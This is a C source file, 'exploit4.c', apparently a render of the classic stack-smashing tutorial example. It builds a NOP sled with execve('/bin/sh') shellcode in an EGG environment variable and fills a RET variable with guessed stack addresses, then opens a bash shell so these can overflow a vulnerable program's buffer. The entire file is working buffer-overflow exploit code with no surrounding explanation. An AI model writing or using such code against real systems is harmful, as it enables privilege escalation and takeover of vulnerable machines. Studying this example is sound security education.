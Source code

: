 exploit4.c
</PRE>
```C
#include <stdlib.h>

#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512
#define DEFAULT_EGG_SIZE               2048
#define NOP                            0x90

char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_esp(void) {
   __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) {
  char *buff, *ptr, *egg;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i, eggsize=DEFAULT_EGG_SIZE;

  if (argc > 1) bsize   = atoi(argv[1]);
  if (argc > 2) offset  = atoi(argv[2]);
  if (argc > 3) eggsize = atoi(argv[3]);


  if (!(buff = malloc(bsize))) {
    printf("Can't allocate memory.\n");
    exit(0);
  }
  if (!(egg = malloc(eggsize))) {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_esp() - offset;
  printf("Using address: 0x%x\n", addr);

  ptr = buff;
  addr_ptr = (long *) ptr;
  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  ptr = egg;
  for (i = 0; i < eggsize - strlen(shellcode) - 1; i++)
    *(ptr++) = NOP;

  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];

  buff[bsize - 1] = '\0';
  egg[eggsize - 1] = '\0';

  memcpy(egg,"EGG=",4);
  putenv(egg);
  memcpy(buff,"RET=",4);
  putenv(buff);
  system("/bin/bash");
}
```